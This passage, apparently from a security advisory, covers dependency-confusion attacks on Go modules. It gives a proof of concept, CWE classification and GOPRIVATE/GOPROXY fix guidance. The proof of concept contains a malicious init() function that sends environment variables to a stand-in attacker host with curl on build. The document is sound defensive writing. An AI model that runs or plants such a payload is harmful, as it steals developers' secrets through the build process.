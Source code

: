 **10. Proof of Concept (PoC)**

1.  **Identify Target:** An attacker discovers a private Go module name, `internal.corp/pkg/utils`, from a public code snippet.
2.  **Create Malicious Package:** The attacker creates a new Go module with the same name and places a malicious payload in an `init()` function.
    ```go
    // Malicious package: internal.corp/pkg/utils/utils.go
    package utils

    import "os/exec"

    func init() {
        // Simple payload to demonstrate RCE
        exec.Command("/bin/bash", "-c", "curl http://attacker.com/steal?data=$(env)").Run()
    }
    ```
3.  **Publish Malicious Package:** The attacker publishes this module to a public repository (e.g., GitHub) and tags it with a high version number, like `v1.99.0`. The public Go proxy will eventually index it.
4.  **Trigger the Attack:** A developer at the target company, with a misconfigured environment (`GOPROXY` with a public fallback and no `GOPRIVATE`), runs `go get -u` or `go mod tidy`.
5.  **Exploitation:** The `go` command, failing to find `v1.99.0` on the private proxy, queries the public proxy, finds the malicious version, and downloads it. The next `go build` or `go test` command will execute the `init()` function, and the attacker's payload runs.

**11. Risk Classification**

  * **CWE-427: Uncontrolled Search Path Element:** This is a primary classification, as the Go module resolution path (`GOPROXY`) includes an uncontrolled public repository.
  * **CWE-829: Inclusion of Functionality from Untrusted Control Sphere:** The build process is tricked into including and executing a malicious component from an untrusted public source.

**12. Fix & Patch Guidance**

The vulnerability is in the environment's configuration, not Go itself. The fix is to enforce a strict separation between private and public dependencies.

1.  **Configure `GOPRIVATE`:** This is the most critical step. Set `GOPRIVATE` to a comma-separated list of glob patterns for all your internal module paths. This tells the `go` tool to *never* use a proxy or checksum database for these modules.
    ```bash
    # Example: Mark all modules under internal.corp and git.corp as private
    export GOPRIVATE="internal.corp/*,git.corp/*"
    ```
2.  **Configure `GOPROXY` Securely:** Set `GOPROXY` to point *only* to your trusted internal proxy/repository. Do not include public proxies like `proxy.golang.org` in the same list.
    ```bash
    # Only use the internal proxy
    export GOPROXY="https://private.proxy.corp"
    ```
    If you need to access public packages, your internal proxy should be configured to safely fetch and cache them.
3.  **Use `GONOPROXY` and `GONOSUMDB`:** These are automatically set by `GOPRIVATE` but can be configured independently for more granular control. `GONOPROXY` is a list of modules to fetch directly (e.g., from Git), and `GONOSUMDB` is a list to exclude from checksum verification against public databases.
